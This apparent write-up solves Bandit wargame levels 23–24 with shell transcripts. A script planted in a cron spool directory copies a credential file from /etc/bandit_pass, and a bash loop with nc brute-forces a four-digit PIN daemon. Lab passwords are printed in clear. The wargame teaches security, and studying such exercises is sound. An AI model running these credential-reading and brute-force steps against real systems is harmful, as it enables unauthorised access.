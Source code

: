```bash
bandit23@bandit:/etc/cron.d$ mkdir /tmp/shiro
bandit23@bandit:/etc/cron.d$ chmod 777 /tmp/shiro
bandit23@bandit:/var/spool/bandit24$ nano script.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:/var/spool/bandit24$ cat script.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/shiro/password.txt
bandit23@bandit:/var/spool/bandit24$ chmod +x script.sh
bandit23@bandit:/var/spool/bandit24$ ls /tmp/shiro
password.txt
bandit23@bandit:/var/spool/bandit24$ cat /tmp/shiro/password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# Level 24

>   A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
>

```bash
sshpass -p UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ssh bandit24@bandit.labs.overthewire.org -p 2220
```

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ mkdir /tmp/shiro
bandit24@bandit:~$ cd /tmp/shiro
bandit24@bandit:/tmp/shiro$ nano script.sh
Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit24@bandit:/tmp/shiro$ cat script.sh
#!/bin/bash

for i in {0000..9999}
do
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> combinations.txt
done
bandit24@bandit:/tmp/shiro$ chmod +x script.sh
bandit24@bandit:/tmp/shiro$ ./script.sh
bandit24@bandit:/tmp/shiro$ cat combinations.txt | nc localhost 30002 >> result.txt
bandit24@bandit:/tmp/shiro$ sort result.txt | uniq -u

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
